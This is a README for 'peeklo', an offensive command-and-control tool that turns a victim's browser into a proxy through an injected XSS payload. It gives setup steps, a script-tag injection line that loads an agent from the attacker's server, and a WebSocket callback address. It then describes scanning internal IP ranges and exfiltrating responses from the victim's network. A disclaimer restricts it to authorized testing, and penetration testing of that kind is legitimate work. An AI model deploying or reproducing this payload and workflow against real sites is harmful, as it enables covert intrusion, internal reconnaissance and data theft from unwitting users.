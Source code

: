 # peeklo

**Version:** v1.0

peeklo is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeklo establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, and exfiltrate data — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and multiple victims  
- Victim’s browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:  
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Log viewer with copy/save functionality  
- Self-signed HTTPS support with auto-generated certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeklo.git
    cd peeklo
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. Generate a self-signed TLS certificate:

    ```bash
    make cert
    ```

4. Run the server:

    ```bash
    make run
    ```

5. Open your browser and access the control panel:

    ```
    https://<your-ip>:8443/static/control.html
    ```

6. Inject the XSS payload (example):

    ```html
    <script src="https://<your-ip>:8443/static/agent.js"></script>
    ```

    Or embed `infect.html` as needed depending on the vulnerability.

---

## Usage

### Control Panel

- Choose a connected victim from the dropdown  
- Input a manual URL to fetch via the victim  
- Specify an IP range (e.g. `192.168.1.10-20` or `192.168.1.0/24`) and ports (e.g. `80,8080,3000-3010`) to scan  
- Results will appear in the log viewer:  
  - HTTP status  
  - Body preview 
- You can copy the log or save it as `.txt` or `.json`  

---

### `SERVER-IP` Placeholder

In both `agent.js` and `control.html`, the WebSocket connection points to:

```javascript
wss://SERVER-IP:8443/ws
```

**Before deploying**, replace `SERVER-IP` with your actual IP address (e.g. `192.168.1.12` or a public IP/domain). This ensures the victim browser and control panel can communicate with your server over HTTPS.

---


## Project Structure

```
peeklo/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Inject the payload into a vulnerable web application  
2. Victim’s browser loads the agent and connects to your peeklo server  
3. From the control panel, you issue commands to fetch URLs or scan targets  
4. peeklo logs and returns the content of internal services  

---

## Use Cases

- Internal network exploration through browser footholds  
- LAN service enumeration from inside the victim’s network   

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeklo outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

- **b3rito** – [https://github.com/b3rito](https://github.com/b3rito)  
- **GioPpeTto**
